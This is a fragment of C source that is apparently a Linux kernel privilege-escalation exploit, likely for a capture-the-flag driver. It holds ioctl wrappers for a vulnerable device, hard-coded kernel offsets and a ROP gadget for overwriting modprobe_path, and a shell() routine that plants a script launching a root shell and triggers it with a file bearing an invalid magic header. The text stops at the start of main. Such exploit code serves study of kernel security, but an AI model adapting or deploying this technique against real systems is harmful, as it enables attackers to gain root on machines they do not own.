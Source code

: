 
static void create(int fd, char* buf,size_t len, size_t cont_len)
{
    req r;

    r.contents = buf;
    r.size = len;
    r.content_length = cont_len;

    if (ioctl(fd, CREATE, &r) == -1) {
        perror("ioctl create");
    }
}

static void delete(int fd, int idx)
{
    req r;
    r.idx = idx;

    if (ioctl(fd, DELETE, &r) == -1) {
        perror("ioctl delete");
    }
}

static void show(int fd, int idx, char* buf)
{
    req r;
    r.idx = idx;
    r.show_buffer = buf;

    if (ioctl(fd, SHOW, &r) == -1) {
        perror("ioctl show");
    }
}

static void append(int fd, int idx, char* buf,size_t len, size_t cont_len)
{
    req r;
    r.idx = idx;
    r.contents = buf;
    r.size = len;
    r.content_length = cont_len;

    if (ioctl(fd, APPEND, &r) == -1) {
        perror("ioctl append");
    }
}

void shell() {
    system("echo '#!/bin/sh' > /home/user/hax; echo 'setsid cttyhack setuidgid 0 \
           /bin/sh' >> /home/user/hax");
    system("chmod +x /home/user/hax");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/user/roooot");
    system("chmod +x /home/user/roooot");
    system("/home/user/roooot");
}

#define TTY_OPS 0x1064f00
#define MODEPROBE_PATH 0x144cd40
/*
    0xffffffffbd8dc749:	mov    DWORD PTR [rdx],esi
    0xffffffffbd8dc74b:	ret
*/
#define GADGET 0xdc749

#define TTY_STRUCT 56;

// size <= 1024, amount <= 10
int main (void)
